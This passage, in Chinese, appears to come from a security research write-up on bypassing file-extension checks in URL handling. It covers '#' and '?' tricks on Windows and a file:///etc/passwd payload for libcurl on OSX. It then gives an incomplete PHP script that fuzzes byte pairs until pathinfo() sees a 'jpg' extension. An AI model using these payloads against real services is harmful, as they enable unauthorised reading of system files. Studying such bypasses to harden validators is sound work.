 [![](assets/1701134864-d3f3080e3efef31640a0ad2bcd820e6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143637-5095fae4-8cef-1.png)

经过测试可以知道Window下通过 # 和 ? 可以绕过后缀限制。

[![](assets/1701134864-71d4f4de8895788e6816df9d244840b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127145618-107b0c1c-8cf2-1.png)

**OSX libcurl: 7.52.1**

url=file:///etc/passwd{1}{2}{3}jpg

编写`fuzz.php`，直接`255*255*255`次数太多会导致内存分配出错，`255*255*2`会好一点，代码设计如下

```plain
<?php
error_reporting(E_ALL & ~E_WARNING);
ini_set('memory_limit', '-1');
$url = "file:///etc/passwd";
$validArrays = array();
for($pos=0; $pos<=255; $pos++){
    $char1 = sprintf("%02x", $pos);
    for($p2=0; $p2<=255; $p2++){
        $char2 = sprintf("%02x", $p2);
        $url .= urldecode("%".$char1);
        $url .= urldecode("%".$char2);
        // 第一种
        //$url.= ".jpg";
        // 第二
        $url .= "jpg";
        $ext = pathinfo($url, PATHINFO_EXTENSION);
        if($ext == "jpg"){
            array_push($validArrays, $url);
```